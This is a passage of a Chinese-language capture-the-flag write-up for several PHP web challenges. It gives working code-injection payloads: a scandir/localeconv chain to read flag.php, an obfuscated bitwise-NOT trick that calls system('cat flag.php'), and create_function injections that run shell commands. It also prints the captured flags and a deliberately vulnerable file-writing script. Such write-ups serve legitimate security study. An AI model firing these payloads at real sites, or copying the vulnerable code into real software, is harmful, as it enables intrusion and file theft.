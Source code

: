 ```
../
?> array(3) { 
[0]=> string(1) "." 
[1]=> string(2) ".." 
[2]=> string(4) "html" }
```

看来就在当前目录下处理就行了，next方法可以获取数组的第二个值。把列表逆向排序一下。

打印数组逆向 `?exp=echo(var_dump(array_reverse(scandir(pos(localeconv())))));`

打印数组逆向后第二值即flag.php `?exp=echo(var_dump(next(array_reverse(scandir(pos(localeconv()))))));`

最终payload `?exp=echo(highlight_file(next(array_reverse(scandir(pos(localeconv()))))));`

或 `?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));`

显示出flag

`xmctf{4daaf692b14569babe0dfc7d6e67698e}`

## web4

`dhudndrgrhs.php?shell=${~"\xa0\xb8\xba\xab"}[1](${~"\xa0\xb8\xba\xab"}[2]);&1=system&2=cat flag.php`

`$flag='xmflag{yi_giao_wo_li_giao_giao}';`

## easy-web

先ls一下。[可参考](https://blog.csdn.net/qq_45808659/article/details/105799699)

hackbar:
    
    GET: ?act=\create_function&arg=){return%20123;}system(%27ls ../%27);//
    POST: key=123

发现ffflll4g，然后cat出来

hackbar:
    
    GET: /?act=\create_function&arg=){return%20123;}system(%27cat%20/ffflll4g%27);//
    POST: key=123

flag{99798edf2eb1fa20d8ed9ce7da85f902}

## web12

```php
<?php
highlight_file(__FILE__);
$content = @$_GET['content'] ? "---mylocalnote---\n" . $_GET['content'] : "";
$name = @$_GET['name'] ? $_GET['name'] : '';
str_replace('/', '', $name);
str_replace('\\', '', $name);
file_put_contents("/tmp/" . $name, $content);
session_start();
if (isset($_SESSION['username'])) {
    echo "Thank u,{$_SESSION['username']}";
}
//flag in flag.php 
```
